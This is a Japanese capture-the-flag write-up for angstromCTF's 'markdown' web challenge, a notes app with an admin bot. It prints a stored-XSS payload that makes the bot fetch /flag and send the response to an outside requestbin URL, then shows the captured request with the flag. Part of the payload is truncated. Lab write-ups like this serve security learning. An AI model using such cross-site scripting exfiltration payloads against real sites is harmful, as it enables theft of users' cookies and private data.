


# markdown:web:80pts
My friend made an app for sharing their notes!  
App: [https://markdown.web.actf.co/](https://markdown.web.actf.co/)  
Send them a link: [https://admin-bot.actf.co/markdown](https://admin-bot.actf.co/markdown)  

[index.js](index.js)  

# Solution
サイトとAdmin BotのURLと、ソースが渡される。  
アクセスするとmarkdown形式のノートが保存できる。  
  
  
ノートごとに`https://markdown.web.actf.co/view/3da090eb6251e22a`のような個別のURLとなる。  
Admin Botがあることから考えてもXSSのようだ。  
ソースを見るとフラグの関連する箇所は以下の通りであった。  
```js
~~~
app.get('/flag', (req, res) => {
    const cookie = req.headers.cookie ?? ''
    res.type('text/plain').end(
        cookie.includes(process.env.TOKEN)
        ? process.env.FLAG
        : 'no flag for you'
    )
})
~~~
```
`/flag`を叩けばよいが、`TOKEN`を確認しているのでAdmin Botでfetchしなければならない。  
markdownとして、XSSの基本となるペイロードを投げると、`<script>alert(1)</script>`は動かないが``でアラートした(innerHTMLのようだ)。  
リクエストを受け取るサーバを[用意し](https://pipedream.com/requestbin)、以下のペイロードをノートとして保存する。  
```html
 res.text()).then(text => location.href="https://entrc16w8nkok.x.pipedream.net/?s=" + text)'>
```
ノートのURLとして`https://markdown.web.actf.co/view/a2a52b75931ad531`が手に入るので、Admin Botに送信して踏ませる。  
するとサーバへ以下のようなリクエストが届く。  
```
GET
/?s=actf{b534186fa8b28780b1fcd1e95e2a2e2c}
```
flagが得られた。  

## actf{b534186fa8b28780b1fcd1e95e2a2e2c}